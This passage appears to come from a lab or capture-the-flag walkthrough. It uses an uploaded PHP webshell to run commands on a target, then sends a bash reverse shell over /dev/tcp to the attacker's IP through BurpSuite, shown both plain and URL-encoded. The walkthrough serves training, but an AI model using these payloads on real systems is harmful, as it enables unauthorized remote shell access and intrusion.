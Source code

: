 *The above URL returns with the output of the ```id``` command, letting us know that Apache is running in the context of the user ```www-data```. Let's intercept this request in BurpSuite and send it to the repeater tab by pressing the CTRL+R shortcut, or by right-clicking inside the request and selecting Send to Repeater.*

*Now that we know we can execute code on the remote system, let's attempt to get a reverse shell. The current request is an HTTP GET request and we can attempt to use it to send a command that will grant us a reverse shell on the system, however, it is likely that one might encounter errors due to the presence of special characters in the URL (even after URL encoding them). Instead, let us convert this GET request to a POST request and send the reverse shell command as an HTTP POST parameter.*

*Right-click inside the Request body box, and click on the "Change request method" in order to convert this HTTP GET request to an HTTP POST request.*

*In the repeater tab, we can alter the request and set the following reverse shell payload as a value for the ```cmd``` parameter.*

```
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```

*Here is how it should look:*

```
POST /_uploaded/webshell.php HTTP/1.1
Host: 10.129.95.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=j6sut9tb6rurr1k8kt98ugijla
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.186/443 0>&1'
```

*This reverse shell payload will make the remote host connect back to us with an interactive bash shell on the specified port that we are listening on.*

*In order to execute our payload, we will have to first URL encode it. For URL encoding the payload, select the payload text in the request body and press CTRL+U.*

*Now it looks like this:*

```
POST /_uploaded/webshell.php HTTP/1.1
Host: 10.129.95.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=j6sut9tb6rurr1k8kt98ugijla
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.186/443+0>%261'
```
